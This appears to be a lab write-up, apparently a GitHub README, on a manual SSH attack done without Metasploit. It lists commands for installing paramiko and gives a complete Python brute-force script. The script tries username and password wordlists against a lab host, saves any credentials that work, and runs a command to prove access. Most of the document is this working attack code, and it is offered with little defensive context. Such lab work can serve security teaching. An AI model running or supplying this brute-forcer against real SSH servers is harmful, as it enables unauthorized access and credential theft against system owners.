 To demonstrate a manual SSH-based attack without using Metasploit, we created a custom script using Python and the `paramiko` library.

---

###  Environment Setup

We first made sure the system was ready by installing `pip` and `paramiko`:

```bash
sudo apt update
sudo apt install python3-pip -y
sudo python3 -m pip install paramiko --break-system-packages
```
![WhatsApp Image 1446-10-24 at 09 30 19](https://github.com/user-attachments/assets/edb131e2-722a-4cc2-ac47-073db5589a23)


---

###  Script Logic

We created a script called `ssh_bruteforce.py` that:
- Loads usernames and passwords from two files
- Tries to login to the victim’s SSH server using `paramiko`
- If login is successful, it prints the credentials and executes `uname -a` on the server

```python
import paramiko

target_ip = "192.168.64.7"
username_file = "/home/kali/users.txt"
password_file = "/home/kali/pass.txt"
output_file = "credentials.txt"

client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

with open(username_file, "r") as users, open(password_file, "r") as passwords:
    for user in users:
        for pwd in passwords:
            username = user.strip()
            password = pwd.strip()

            try:
                client.connect(target_ip, username=username, password=password, timeout=3)
                print(f"[+] Success: {username}:{password}")
               
                # Save to file
                with open(output_file, "a") as creds:
                    creds.write(f"{username}:{password}\n")

                # Proof of Concept
                stdin, stdout, stderr = client.exec_command("uname -a")
                print("PoC:", stdout.read().decode())

                client.close()
                break  

            except paramiko.AuthenticationException:
                print(f"[-] Failed: {username}:{password}")
            except Exception as e:
                print(f"[!] Error with {username}:{password} -> {e}")
        passwords.seek(0)  # Reset password file pointer for next username
```
![WhatsApp Image 1446-10-24 at 09 26 15](https://github.com/user-attachments/assets/db6a3aec-37d8-4122-ad0e-40e656cf508d)
